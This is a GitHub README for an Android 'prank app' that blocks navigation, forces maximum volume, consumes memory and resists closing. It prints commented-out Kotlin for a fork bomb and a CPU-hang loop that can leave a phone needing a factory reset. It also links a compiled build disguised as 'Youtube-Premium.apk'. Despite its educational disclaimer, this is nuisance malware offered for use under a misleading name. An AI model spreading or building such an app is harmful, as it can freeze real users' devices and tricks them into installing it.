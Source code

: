 
# 🚨 Prank App 

## ⚠️ Important Notice
This app is a **personal project** created for **educational purposes only**. It explores Android system interactions by simulating temporary device unresponsiveness.

## ❗ Disclaimer
- 🚫 **Not a Real Utility**: This is a proof-of-concept app for learning Android development.
- ⚠️ **Use Responsibly**: Do **not** deploy it on others' devices without explicit consent.
- 🛠️ **Testing**: Test only on **emulators** or **spare devices**. The app may cause temporary frustration!
- ❗ **No Guarantees**: This project is experimental and may behave unpredictably on certain devices.

---

## 📌 Features
- **Fullscreen Activity Lock**: Prevents user interaction by blocking navigation buttons.
- **Max Volume Override**: Automatically sets media volume to the maximum.
- **Persistent Loop**: Forces user to confirm an action repeatedly.
- **Memory Consumption**: Simulates heavy RAM usage.
- **Overlay Lock**: Attempts to prevent closing the app.

---

## ⚠️ Dangerous Code (Commented Out)
The source code contains **commented-out functions** that could make a device **completely unresponsive** if executed. These include:

### 🧨 Fork Bomb (`forkBomb()`)
Opens multiple instances of the app repeatedly, causing the device to freeze.

```kotlin
//    private fun forkBomb(context: Context) {
//        while (true) {
//            val intent = Intent(context, MainActivity::class.java)
//            context.startActivity(intent)
//            context.startActivity(intent)
//            context.startActivity(intent) // Opens new instances of the app repeatedly
//        }
//    }
```

### 🔥 CPU Hang Attack (`hangDevice()`)
Runs an infinite loop of CPU-intensive operations, making the device unresponsive.

```kotlin
//    private fun hangDevice() {
//        while (true) {
//            // This runs in a loop, keeping the CPU busy
//            Math.sqrt(999999999.999)
//            Math.sqrt(999999999.999)
//            Math.sqrt(999999999.999)
//        }
//    }
```

### 💀 **Phone Kill Attacks (Commented Out for Safety)**

```kotlin
// forkBomb(this)
// hangDevice()
```
🚨 **These functions are commented out for safety reasons. Running them may require a hard reset or factory reset to recover the device!**

---

## 📂 APK for Reference
I am attaching the **[Youtube-premium.apk](https://github.com/amgaikwad4588/Android-Prank-App/raw/refs/heads/main/output-debug/apk%20package/Youtube-Premium.apk)** here for reference, allowing you to see the app in action without compiling the source code yourself.

### ⚠️ **Final Warning**
**I am not responsible for any misuse of this code. Use with caution!** 🚀
